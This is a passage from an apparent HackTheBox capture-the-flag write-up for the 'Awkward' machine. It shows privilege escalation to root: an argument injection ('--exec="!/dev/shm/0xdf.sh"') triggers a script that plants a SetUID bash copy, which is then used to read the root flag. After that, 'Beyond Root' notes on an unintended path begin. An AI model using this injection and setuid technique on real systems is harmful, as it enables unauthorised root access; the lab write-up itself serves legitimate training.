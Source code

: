 

    bean@awkward:/var/www/store/product-details$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > /dev/shm/0xdf.sh
    bean@awkward:/var/www/store/product-details$ chmod +x /dev/shm/0xdf.sh
    bean@awkward:/var/www/store/product-details$ cat /dev/shm/0xdf.sh
    #!/bin/bash

    cp /bin/bash /tmp/0xdf
    chmod 4777 /tmp/0xdf



Now I'll update the product:



    bean@awkward:/var/www/store/product-details$ head -1 1.txt > 223.txt
    bean@awkward:/var/www/store/product-details$ echo '0xdf --exec="!/dev/shm/0xdf.sh"' >> 223.txt 



On adding it to my cart, now `0xdf` exists and is SetUID for root:



    bean@awkward:/var/www/store/cart$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1396520 Oct  5 05:42 /tmp/0xdf



It works:



    bean@awkward:/var/www/store/cart$ /tmp/0xdf -p
    0xdf-5.1# cat /root/root.txt
    59fad68a************************



## Beyond Root

### Unintended Background

The path through Awkward relies on the user not getting execution as
www-data for it to make any sense. For the foothold, I'll get file read
access as www-data, but use it to read bean's backup file and get a
shell as bean. To get root, I'll use symlinks to trick www-data into
writing other files, triggering the `mail` command injection.

If a player could get a shell as www-data, the root step would be
significantly easier, and multiple steps would be skipped.

### Patched RCE as www-data

#### Changelog

HackTheBox issues a
[changelog](https://app.hackthebox.com/machines/Awkward/changelog) two
days after release for Awkward:
